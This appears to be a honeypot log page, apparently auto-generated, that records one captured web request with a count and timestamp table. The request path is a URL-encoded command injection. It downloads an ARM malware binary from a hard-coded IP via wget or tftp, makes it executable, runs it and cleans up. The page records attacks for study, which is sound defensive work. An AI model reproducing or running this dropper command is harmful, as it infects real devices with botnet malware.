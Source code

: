 # Analysis for /shell%3Fcd%20%2Ftmp%3B%20echo%20%3ENiGGea%20%7C%7C%20cd%20%2Fvar%3B%20echo%20%3ENiGGea%3B%20cp%20%2Fbin%2Fbusybox%20yee%3B%20%3Eyee%3B%20chmod%20777%20yee%3B%20nohup%20wget%20http%3A%2F%5C%2F87.121.98.34%3A80%2Fillz%2Fmegumi.arm7%20-O%20yee%20%7C%7C%20nohup%20tftp%20-r%20megumi.arm7%20-g%2087.121.98.34%3A80%20-l%20yee%3B%20chmod%20777%20yee%3B.%2Fyee%3B%20rm%20-rf%20yeeter%20%3E%2Fdev%2Fnull%202%3E%261
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 